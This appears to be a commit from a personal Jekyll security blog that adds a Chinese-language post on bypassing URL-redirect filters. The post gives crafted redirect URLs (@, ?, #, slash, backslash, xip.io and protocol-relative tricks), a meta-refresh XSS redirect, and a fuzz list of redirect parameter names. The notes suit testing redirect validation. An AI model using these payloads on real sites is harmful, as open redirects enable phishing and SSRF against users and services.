

Before and after one commit to jzhoucdc/jzhoucdc.github.io, a Jekyll site: the page built from _posts/2020-04-18-url漏洞的BYPASS.md, in a window 1280 px wide. Shown: the whole page at 93% size, without its empty margins (108-1159 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
4 21 新增
删除了信息收集部分,增加url跳转方便日后查看

```diff
--- a/_posts/2020-04-18-url漏洞的BYPASS.md
+++ b/_posts/2020-04-18-url漏洞的BYPASS.md
@@ -1 +1,67 @@
-# 是
+## bypass
+1.最常用的一条：@绕过。
+
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.xiaozhupeiqi.com@www.baidu.com //ssrf也可用
+2.绕过一些匹配特定字符。
+
+？绕过
+
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.baidu.com?www.xiaozhupeiqi.com
+#绕过
+
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.baidu.com#www.xiaozhupeiqi.com
+3.斜杠/绕过
+
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.baidu.com/www.xiaozhupeiqi.com
+或者反斜线
+
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.baidu.com\www.xiaozhupeiqi.com
+4.白名单匹配绕过
+
+比如匹配规则是必须跳转，xiaozhupeiqi.com 域名下，?#等都不行的时候，如果匹配规则为xiaozhupeiqi.com，可以尝试百度inurl:xiaozhupeiqi.com的域名，比如
+aaaxiaozhupeiqi.com，这样同样可以绕过。接下来实战中会用到，
+5.xip.io绕过
+
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.xiaozhupeiqi.com.220.181.57.217.xip.io
+会跳转到百度
+
+6.理想化方法
+
+如果有机会在自己的页面设置url跳转，比如目标网站的bbs论坛自己的资料页面设置url跳转，既然是服务器的网站，那么url是不会限制的，可以用一个漏洞去构造另一个漏洞。
+7.白名单网站可信
+
+如果url跳转点信任百度url，google url或者其他，则可以多次跳转达到自己的恶意界面。
+8.协议绕过
+
+http与https协议转换尝试，或者省略
+
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=//www.xiaozhupeiqi.com@www.baidu.com
+http://127.0.0.1/url.php?username=1&password=1&password=1&redict=////www.xiaozhupeiqi.com@www.baidu.com//多斜线
+9.xss跳转
+
+这种就没啥说的了，就是XSS造成的跳转，下面也有案例，在有些情况下XSS只能造成跳转的危害。
+
+<meta  content="1;url=http://www.baidu.com" http-equiv="refresh">
+
+## fuzz
+redirect
+url
+redirectUrl
+callback
+return_url
+toUrl
+ReturnUrl
+fromUrl
+redUrl
+request
+redirect_to
+redirect_url
+jump
+jump_to
+target
+to
+goto
+link
+linkto
+domain
+oauth_callback
```
Also changed, not shown: _posts/2020-04-18-信息收集与整理.md (deleted, +0 -1 lines).
